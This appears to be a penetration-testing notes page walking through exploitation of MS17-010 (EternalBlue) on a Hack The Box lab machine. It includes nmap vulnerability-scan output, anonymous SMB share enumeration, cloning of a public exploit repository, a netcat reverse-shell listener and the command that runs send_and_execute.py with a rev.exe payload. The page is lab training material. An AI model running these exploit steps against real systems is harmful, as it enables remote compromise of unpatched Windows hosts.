

# EternalBlue

## EternalBlue

MS-17-010, also known as ETERNALBLUE, is an unauthenticated remote code execution vulnerability in Windows SMB that was made famous by the Shadow Brokers' publication and use in May 2017 WannaCry worm.

Metasploit's MS17-010 exploits are far more stable than their Python script counterparts. If you're doing this in the real world, Metasploit is a great tool to use.

## Enumeration

We can use Nmap **vuln nse scripts** to find vulnerable versions of SMB:

```
❯ sudo nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 12:10 EDT
Nmap scan report for 10.10.10.40
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds
```

## Exploitation

### Manually - NO Metasploit

**SMB Authentication:**

**smbclient** doesn't error out:

```
❯ smbclient -N -L //10.10.10.40/Share

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
```

**smbmap** needs a **user** or a **password** string to authenticate for some reason:

```
❯ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445	Name: 10.10.10.40
❯ smbmap -u 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
❯ smbmap -p 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
```

#### Exploit

Worawit has the greatest MS17-010 Python scripts I've seen. These are effective, but they are a little difficult to use. That project was forked by helviojunior, who included a single send and execute.py file, which is quite useful. It's just an updated version of the original zzz exploit.py script, with the addition of the ability to upload a file and run it as system.

```
git clone https://github.com/helviojunior/MS17-010
```

**Credentials Update**

Just like with `smbmap`, when we try to run this with username as an empty string, it won’t authenticate. However, if we just add any string into the username, it will then work.

Modify the exploit, add any string to the username variable:



### Exploit manually&#x20;

Set a listener with **nc**:

```
sudo rlwrap nc -lvnp 443
```

Then execute the exploit with:

```
~/htb/blue/MS17-010 master* 26s
impacket-venv ❯ python send_and_execute.py 10.10.10.40 rev.exe
```


